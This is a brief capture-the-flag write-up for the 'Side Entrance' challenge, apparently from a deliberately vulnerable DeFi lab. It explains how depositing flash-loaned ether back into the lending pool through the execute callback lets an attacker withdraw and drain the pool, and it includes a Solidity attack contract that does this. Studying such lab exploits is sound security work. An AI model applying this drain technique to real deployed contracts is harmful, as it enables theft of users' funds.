 # Side Entrance

1. `SideEntranceLenderPool.sol` have `flashLoan` function which have a `execute` function call to receiving address and providing the borrowed value. With this, we can implement `execute` callback in our smart contract, and enter `deposit` function in `SideEntranceLenderPool.sol`, it will update our `balances` mapping in the contract, and also pass the contract balance checking in the end of `flashLoan` call.

```solidity
    function attack(uint256 amount) external {
        pool.flashLoan(amount);
        pool.withdraw();
        (bool sent, ) = owner.call{value: address(this).balance}("");
        require(sent, "Failed");
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }
```

2. Then we can call `withdraw` to drain the pool.
